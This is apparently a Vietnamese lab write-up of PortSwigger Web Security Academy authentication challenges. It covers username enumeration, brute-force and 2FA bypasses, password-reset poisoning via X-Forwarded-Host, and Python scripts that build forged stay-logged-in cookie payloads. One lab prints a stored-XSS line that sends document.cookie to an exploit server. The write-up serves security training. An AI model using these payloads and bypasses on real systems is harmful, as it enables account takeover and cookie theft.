

Authentication vulnerabilities¶
Lab: Username enumeration via different responses¶
-
Trước hết, chúng ta thấy với
usernamesai thì sẽ có response làInvalid user
-
Do đó chúng ta có thể tìm được username đúng bằng cách dùng list https://portswigger.net/web-security/authentication/auth-lab-usernames
-
Sau đó, với username đúng là
autothì sẽ có response làIncorrect password
-
Tiếp theo là bruteforce password

-
Đăng nhập thành công với tài khoản
auto:1qaz2wsx
Lab: 2FA simple bypass¶
Lab: 2FA simple bypass | Web Security Academy
- Thực hiện đăng nhập bằng tài khoản victim
carlos:montoya -
Trong phần mềm burpsuite, thực hiện chặn response trả về khi gọi API
POST /login
-
Thực hiện thay đổi response bằng cách đổi header
Location: /my-account?id=carlos. Forward response. Quan sát thấy thực hiện đăng nhập thành công
Lab: Password reset broken logic¶
Lab: Password reset broken logic | Web Security Academy
-
Thực hiện lấy token reset password hợp lệ bằng cách nhấn quên mật khẩu và lấy token trong mail


-
Thực hiện nhập mật khẩu mới

-
Trong phần mềm burpsuite, thực hiện bắt request gửi tới API
POST /forgot-password?temp-forgot-password-token=<token>. -
Chỉnh sửa param
username=carlos. Thực hiện gửi request
-
Đăng nhập bằng account
carlos:1, nhận thấy đăng nhập thành công
Lab: Username enumeration via subtly different responses¶
- Thực hiện truy cập chức năng login. Nhập username và password. Thực hiện submit
-
Trong burpsuite, chuyển request gửi tới API
POST /loginsang tabIntruder.
-
Trước hết, chúng ta sẽ enum ra username đúng. Với bài này, trong response trả về có một tham số giá trị thay đổi liên tục dẫn đến độ dài response khó phân biệt được.

-
Tuy nhiên, thì có một điểm thông người dùng
Invalid...có thể sẽ khác nhau, chúng ta sẽ trích thông báo này ra. Với intruder, chúng ta có thể sử dụng tính năngGrep-Extractnhư sau:
-
Sau đó thì thực hiện attack. Sau cùng username đúng sẽ có thông báo khác biệt là không có dấu
.
-
Cuối cùng là bruteforce password. Lấy được password thành công

Lab: Username enumeration via response timing¶
-
Thực hiện đăng nhập với username đúng là
wienernhưng với mật khẩu dài khiến cho câu lệnh query load chậm dẫn đến response chậm
-
Tuy nhiên lab cũng có cơ chế chặn bruteforce nhưng có thể bypass bằng cách sử dụng header
X-forwarded-for -
Từ đó có thể enum username. Ở đây chúng ta tìm được 2 user
adminvàasterix. Tuy nhiên chỉ bruteforce được tài khoản củaasterix

Lab: Broken brute-force protection, IP block¶
-
Lab có cơ chế chặn brute-force sau khi đăng nhập sai account 3 lần

-
Tuy nhiên, nếu như login 2 lần sai và 1 lần đúng thì có thể tiếp tục nhập sai 2 lần nữa → có thể bruteforce tài khoản victim
-
Thực hiện intruder với 2 list dạng nhưsau:
-
Username
carlos carlos wiener carlos carlos wiener -
Password
123456 password peter 12345678 qwerty peter
-
-
Thực hiện chạy với resource pool có concurrent request là 1. Sau đó có thể lấy password đúng của carlos


Lab: Username enumeration via account lock¶
Lab: Username enumeration via account lock | Web Security Academy
-
Thực hiện enum tài khoản bằng cách gửi request login của mỗi username nhiều lần. Username tồn tại sẽ chính là username có response khác với username khác

-
Đối với tài khoản bị khóa này, nếu như nhập password sai quá 3 lần liên tiếp thì sẽ phải đợi trong vòng 1 phút. Tuy nhiên, khi thử bruteforce password với username này, với password đúng vẫn trả lại response khác với password sai.

-
Sau đó, đợi 1 phút để mở khóa account thì login được

-
Đoạn code xử lý login khi như này sẽ gây ra case trên
@app.route('/login', methods=['POST']) def login(): username = request.form.get('username') password = request.form.get('password') user = db.find_user(username) if user: # --- BƯỚC 1: KIỂM TRA MẬT KHẨU TRƯỚC --- if user.password == hash(password): # --- BƯỚC 2: NẾU PASS ĐÚNG, MỚI KIỂM TRA LOCKOUT --- if user.is_locked(): # TRƯỜNG HỢP 1: ĐÚNG PASS NHƯNG BỊ KHÓA # Dev chỉ trả về trang login trống, quên không đính kèm thông báo lỗi return render_template("login.html"), 200 # Content-Length: 3158 else: # TRƯỜNG HỢP 2: ĐÚNG PASS VÀ KHÔNG KHÓA return redirect("/my-account?id=au"), 302 # Content-Length: 0 # --- BƯỚC 3: NẾU PASS SAI --- else: if user.failed_attempts >= 5: # TRƯỜNG HỢP 3: SAI PASS VÀ ĐANG BỊ KHÓA # Dev hiện thông báo lỗi cực kỳ chi tiết error_msg = "You have made too many incorrect login attempts..." return render_template("login.html", error=error_msg), 200 # Content-Length: 3288 else: # Sai pass thông thường user.increment_failed_attempts() return render_template("login.html", error="Invalid username or password"), 200 return render_template("login.html", error="Invalid username or password"), 200
Lab: 2FA broken logic¶
Lab: 2FA broken logic | Web Security Academy
- Lý thuyết: Khi thực hiện kiểm tra xác thực 2 yếu tố, có thể server sẽ xác thực và gán session cho 1 user, sau đó ở bước kiểm tra mã mfa-code thì sẽ lại lấy trường param
userđể kiểm tra user nào cố gắng xác thực bước 2 với cái session kia. Như vậy nếu như user có thể bruteforce mã mfa → có thể lấy được acc user khác - Trước hết, thực hiện login với account của mình
wiener:peter. -
Khi đến bước nhập mã xác thực, bắt request gửi tới API
GET /login2, thay đổi paramverifythànhcarlosđể hệ thống thực hiện gửi mã mfa-code với tài khoảncarlos.
-
Sau đó, thực hiện nhập mã bất kỳ. Chọn gửi. Trong phần mềm burpsuite, chặn và chuyển request gửi tới API
POST /login2sang tab Intruder
-
Thực hiện thay đổi tham số
verifythànhcarlos. Thực hiện bruteforcemfa-codenhư sau:
-
Bruteforce thành công mã mfa. Lấy được session của user
carlos
-
Sau đó, thay session bằng session của
carlosvà giải lab thành công
Lab: Brute-forcing a stay-logged-in cookie¶
Lab: Brute-forcing a stay-logged-in cookie | Web Security Academy
- Lý thuyết: thường các website sẽ có cơ chế tạo ra cookie giúp người dùng khi tắt browser đi mở lại vẫn có session cũ và thường chỉ hết hạn sau 1 khoảng thời gian (persistent cookie). Cũng vì nó cần gắn với người dùng và thời gian → mọi người dùng có thể suy ra được người dùng khác và có thể giả mạo cookie người dùng khác nếu như cookie chỉ được encode, hoặc encrypt nhưng không có salt hoặc với thuật toán hash yếu
-
Trước hết, trang web có cơ chế chặn bruteforce. Nếu như nhập password sai quá nhiều thì user sẽ không login được trong 1 phút

-
Tuy nhiên, website có cơ chế Keeping users logged in và cơ chế này sử dụng 1 cookie được encode base64 với dạng username:hashed_password. Vì vậy chúng ta có thể thử gen ra cookie của user
carlos
-
Trước hết, password được md5 hash

-
Thực hiện script sau để gen list
import hashlib import os def hash_wordlist(file_path): # Kiểm tra xem file có tồn tại không if not os.path.exists(file_path): print(f"[-] Lỗi: Không tìm thấy file tại {file_path}") return print(f"{'Password':<20} | {'MD5 Hash'}") print("-" * 60) try: with open(file_path, 'r', encoding='utf-8') as file: for line in file: # .strip() để loại bỏ ký tự xuống dòng (\n) ở cuối mỗi dòng password = line.strip() if password: # Bỏ qua dòng trống md5_val = hashlib.md5(password.encode()).hexdigest() print(f"{password:<20} | {md5_val}") except Exception as e: print(f"[-] Đã xảy ra lỗi: {e}") # Chạy thử # Bạn cần tạo 1 file tên là passwords.txt trong cùng thư mục với script này hash_wordlist("passwords.txt") -
Thực hiện lưu hashed_password vào file
hash. Tạo payloads bằng script sau:import base64 import os def generate_b64_payloads(input_file, username="carlos"): if not os.path.exists(input_file): print(f"[-] Không tìm thấy file: {input_file}") return print(f"[*] Đang xử lý file: {input_file}...") with open(input_file, "r", encoding="utf-8") as f: for line in f: # Loại bỏ khoảng trắng và ký tự xuống dòng (\n) item = line.strip() if item: # 1. Tạo chuỗi format: "carlos:item" raw_str = f"{username}:{item}" # 2. Mã hóa Base64 # String -> Bytes -> B64 Bytes -> String b64_val = base64.b64encode(raw_str.encode()).decode() # 3. In kết quả ra màn hình (hoặc ghi vào file khác) print(b64_val) generate_b64_payloads("hash") -
Sử dụng burp Intruder để bruteforce xem cookie nào đúng và từ đó cũng có thể suy ra password nhưng ở đây chỉ cần cookie là đủ

Lab: Offline password cracking¶
Lab: Offline password cracking | Web Security Academy
- Lý thuyết: với lab ở trên ngay cả khi chúng ta ko thể tạo acc thì vẫn có thể dùng xss chẳng hạn để đánh cắp cookie user khác
- Trước hết, tại chức năng comment, người dùng có thể comment mà không cần account. Tuy nhiên, tại chức năng này có tồn tại lỗ hổng stored xss với cả cookie không có http only flag → lấy được cookie.
-
Thực hiện comment với nội dung comment là
<img src="x" onerror="location.href='[https://exploit-0a4b00a0047a0fd58027028101aa00bd.exploit-server.net/exploit?a='+btoa(document.cookie)](https://exploit-0a4b00a0047a0fd58027028101aa00bd.exploit-server.net/exploit?a=%27+btoa(document.cookie))">
-
Thực hiện vào exploit server nhận thấy có cookie trả về (đã được encode)

-
Thực hiện decode được thông tin sau:

-
Sau đó, sử dụng cookie lấy được và vào được trang
carlos
-
Tuy nhiên vẫn cần crack password vì muốn xóa account thì cần password. Thực hiện crack lấy được password là
onceuponatime
-
Thực hiện xóa account thành công và solve lab

Lab: Password reset poisoning via middleware¶
Lab: Password reset poisoning via middleware | Web Security Academy
- Lý thuyết: thông thường thì link reset password có thể gửi qua email. Tuy nhiên do phía server thường cần đi qua 1 middleware (như là reverse proxy) thì host sẽ bị thay đổi → có thể sẽ bị sai link reset password → lập trinh viên thường lấy host trong request → người dùng thao túng được → có thể lấy được token và gắn lại vào link đúng → reset password user khác
-
Thực hiên reset password. Trong burpsuite bắt request gửi đến API
POST /forgot-passwordvà chuyển request sang burp repeater. Tại đây, thực hiện thay đổi tham sốusernamethànhcarlosđồng thời thêm headerX-Forwarded-Host: [e4jgk689m516dzwyyum1sy0oyf46sxgm.oastify.com](http://e4jgk689m516dzwyyum1sy0oyf46sxgm.oastify.com/)
-
Khi đó, vì
carlosluôn bấm vào link gửi trong email nên sẽ có token trả về trong collabarator
-
Thực hiện reset password bằng token lấy được và login thành công


Lab: Password brute-force via password change¶
Lab: Password brute-force via password change | Web Security Academy
-
Thực hiện bruteforce tài khoản với username
carlosnhận thấy sau 3 lần login sai sẽ bị lock account
-
Tại chức năng thay đổi password, nhận thấy có thêm trường
username→ khả năng server sẽ kiểm tra và update mật khẩu người dùng dựa trênusernamenày với cả việc chức năng này không giới hạn số lần nhập password → brute-force password user khác.
-
Khi thực hiện đổi
usernamekhác, nếu như 2 password mới trùng nhau thì chúng ta sẽ bị logout phiên hiện tại. Tuy nhiên chỉ cần thay đổi 2 password mới thì lại có thể brute-force password vớiusernamebất kỳ
-
Lấy được tài khoản là
carlos:thomas.
Lab: Broken brute-force protection, multiple credentials per request¶
Lab: Broken brute-force protection, multiple credentials per request | Web Security Academy
-
Khi thực hiện login sai 3 lần sẽ bị khóa tài khoản.

-
Cơ chế chặn có lẽ dựa trên IP vì khi chúng ta đổi
usernamethì login vẫn bị chặn nhưng mà ở đây không bypass được cơ chế chặn IP:
-
Ở đây, phần body sử dụng json và liệu rằng với kiểu dữ liệu khác cho tham số
passwordcó thể bypass cơ chế này? Khi chúng ta gửi request đi với mảngpasswordthì hoàn toàn login thành công
-
Ngoài ra trong một số trường hợp còn có thể truyền object như
"password": {"password": "123"}
Lab: 2FA bypass using a brute-force attack¶
Lab: 2FA bypass using a brute-force attack | Web Security Academy
- Trước hết chúng ta cần tìm hiểu luồng xác thực 2FA ở đây
-
Vì chúng ta đã có username:password (
carlos:montoya) nên giờ cần phải bypass mã 2fa. Ở đây, chúng ta cần bruteforce mã vì chỉ có 4 số.
-
Tuy nhiên, ở đây mỗi request gửi mã đi để kiểm tra thì lại có
csrftoken chỉ dùng được một lần khiến cho chúng ta không thể brute force được → cần một cách để lấycsrftoken sau đó tạo request để gửi đi → dùng macro của Burpsuite. Các bước làm như sau -
Trước hết, vào Proxy settings > Sessions > Macros > Add

-
Sau đó thực hiện chọn thêm 3 request này

-
Truy cập chức năng Proxy settings > Sessions > Session handling rules> Add

-
Tại scope, tick chọn
Intruderđể mọi request được gửi trong Intruder sẽ được áp dụng rule này
-
Tại
Intruder, thực hiện config như sau để chạy
-
Ngoài ra cần để Resource pool là 1 request mỗi lần gửi

-
Sau đó, vì chúng ta đã bật tự chuyển hướng nên mọi reponse trả về đều là 200, nhưng vẫn có thể giải lab thành công